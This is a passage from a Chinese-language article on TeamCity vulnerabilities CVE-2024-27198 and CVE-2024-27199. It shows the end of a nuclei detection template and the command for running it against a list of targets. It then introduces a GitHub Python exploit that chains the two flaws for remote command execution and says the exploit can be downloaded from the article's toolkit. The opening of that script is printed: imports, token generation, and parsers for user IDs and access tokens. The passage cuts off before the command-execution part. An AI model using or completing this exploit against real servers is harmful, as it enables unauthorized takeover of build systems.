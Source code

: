 ```
          - 'contains_all(body, "Debug Logging", "CPU & Memory Usage")'
        condition: and
# digest: 490a0046304402207d46ec6991f8498ff8c74ec6ebfe0f59f19210620cab88c23c7761c7701b640102201246e4baea4f5b436b45be21c4f66bbe35e8a5f3769b78de38ee94253f331fa7:922c64590222798bb761d5b6d8e72950
```  
  
运行POC  
```
nuclei.exe -t mypoc/cve/CVE-2024-27199.yaml -l 1.txt
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BPSj9gvGuETG6ibkQofJ6dTI5KF9FIVR51lpzJF4VzaaskMfxZJ2ZE7a41ZKucZdeUtrrCGNJZibc0g/640?wx_fmt=png&from=appmsg "")  
  
07  
  
—  
  
漏洞利用  
  
  
github上发现个现成的用python写的EXP，这个脚本利用  
CVE-2024-27198和  
CVE-2024-27199实现远程命令执行，  
EXP放到工具包中了，文末获取  
```
import re
import sys
import string
import random
import urllib3
import requests
import argparse
import xml.etree.ElementTree as ET
from urllib.parse import quote_plus

urllib3.disable_warnings()
token_name = "".join(random.choices(string.ascii_letters + string.digits, k=10))
GREEN = "\033[92m"
RESET = "\033[0m"

def GetUserID(response_text):
    try:
        root = ET.fromstring(response_text)
        user_info = {
            "username": root.attrib.get("username"),
            "id": root.attrib.get("id"),
            "email": root.attrib.get("email"),
        }
        return user_info["id"]
    except ET.ParseError as err:
        print(f"[-] Failed to parse user XML response: {err}", "!")
        return None

def GetToken(response_text):
    try:
        root = ET.fromstring(response_text)
        token_info = {
            "name": root.attrib.get("name"),
            "value": root.attrib.get("value"),
            "creationTime": root.attrib.get("creationTime"),
        }
        return token_info["value"]
    except ET.ParseError as err:
        print(f"[-] Failed to parse token XML response: {err}", "!")
        return None

```